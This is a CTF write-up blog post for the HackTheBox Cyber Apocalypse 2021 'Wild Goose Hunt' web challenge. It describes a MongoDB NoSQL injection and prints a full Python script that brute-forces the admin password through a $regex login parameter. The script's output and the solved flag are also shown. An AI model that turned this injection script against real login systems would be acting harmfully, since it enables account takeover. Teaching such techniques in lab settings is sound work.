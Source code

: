 ```yaml
---
layout: post
title: HackTheBox CTF Writeup
date: 2021-04-19 01:00 +0700
modified: 2021-04-26 09:45:00 +0700
description:  0x90skids writeups for the 2021 HackTheBox CTF Competition
tag:
  - ctf
  - writeup
image: https://0x90skids.com/htb_ctf_logo.png
author: 0x90skids
summmary: 0x90skids writeups for the 2021 HackTheBox CTF Competition
comments: true
---
```

<img class="img-fluid rounded z-depth-1" src="htb_ctf_logo.png">
>  HackTheBox Cyber Apocalypse 2021 CTF was an event hosted online.
<br>0x90skids recently competed in the competition.

# Categories 

+  [Web](#web)

## Web
### Wild Goose Hunt
**Solved By:** Bib<br>
**Points:** 300<br>
**Flag:** CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}

##### Challenge
Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?

##### Solution

I first checked the challenge page. I was greeted with a login screen :
<br>
  <img src="images\htb-ctf\wild_goose_hunt_login.png" alt="login screen">
<br>
After looking at the login screen a little bit, I went ahead and looked at the challenge's downloadable source code. I saw that this challenge was using MongoDB and that the flag was the admin password. This means that we need to either get inside the database or login using a NoSQL injection. I've tried different payloads using Burp and finally got one that worked :
<br>
  <img src="images\htb-ctf\wild_goose_hunt_burp.png" alt="burp payload">
<br>
The working payload was found via an article on ([HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)). This article also shows a script that brute-force each character (username or password) using regex. I modified this script to fit the challenge. Here's my final script :
<br>
```python
import requests, string, json, sys

url = "http://178.62.14.240:32507/api/login"
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password():
    print("Bruteforcing password... Please wait!")
    params = {"username":"admin", "password[$regex]":""}
    password = "^CHTB{"
    print(password[1:].replace("\\", ""))
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, verify=False, allow_redirects=False)
            data_raw = json.loads(pr.text)
            data = json.dumps(data_raw, indent=2)
            if "Login Successful" in data:
                password += c
                print(password[1:].replace("\\", ""))
                break
        if c == possible_chars[-1]:
            print("Found password : "+password[1:].replace("\\", ""))

get_password()
```
<br>
Here's the output from my script :
<br>
```
Bruteforcing password... Please wait!
CHTB{
CHTB{1
CHTB{1_
CHTB{1_t
CHTB{1_th
CHTB{1_th1
CHTB{1_th1n
CHTB{1_th1nk
CHTB{1_th1nk_
CHTB{1_th1nk_t
CHTB{1_th1nk_th
CHTB{1_th1nk_the
CHTB{1_th1nk_the_
CHTB{1_th1nk_the_4
CHTB{1_th1nk_the_4l
CHTB{1_th1nk_the_4l1
CHTB{1_th1nk_the_4l1e
CHTB{1_th1nk_the_4l1en
CHTB{1_th1nk_the_4l1ens
CHTB{1_th1nk_the_4l1ens_
CHTB{1_th1nk_the_4l1ens_h
CHTB{1_th1nk_the_4l1ens_h4
CHTB{1_th1nk_the_4l1ens_h4v
CHTB{1_th1nk_the_4l1ens_h4ve
CHTB{1_th1nk_the_4l1ens_h4ve_
CHTB{1_th1nk_the_4l1ens_h4ve_n
CHTB{1_th1nk_the_4l1ens_h4ve_n0
CHTB{1_th1nk_the_4l1ens_h4ve_n0t
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_u
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_us
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_use
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0n
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}
Found password : CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}
```
<br>
Bingo! Interesting challenge that helped me understand NoSQL auth bypass techniques.
<br>
`CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}`